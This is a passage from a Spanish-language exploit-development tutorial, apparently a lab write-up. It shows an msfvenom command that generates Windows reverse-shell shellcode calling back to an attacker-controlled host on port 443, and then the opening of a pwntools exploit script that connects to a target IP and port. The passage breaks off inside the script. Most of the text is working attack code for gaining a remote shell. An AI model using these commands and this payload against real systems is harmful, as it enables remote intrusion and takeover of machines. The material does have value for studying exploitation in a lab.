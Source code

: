 Y por fin crearemos el shell code de nuestra reverse shell recuerda que estamos de manera local entonces realizaremos las pruebas 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.X.X LPORT=443 -b '\x00' EXITFUNC=thread -f py
```

![paste](./images/113.jpeg)

# Posiblemente no funcione a la primera pero intenta varias veces 

quedando el script así: 

```python
#!/usr/bin/python3

from pwn import *
import sys, signal, time 


def def_handler(sig,frame):
    print("\n Saliendo..........[!]\n")
    sys.exit(1)

#Ctrl C
signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) !=3:
    print("\n Error valores incompletos \n")
    print("\n Uso: python3 %s <IP> <port> \n " % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]
port = sys.argv[2]

print("Iniciando conexion [!]")
try:
    r = remote(ip, port)
    conexion_exitosa = True
```
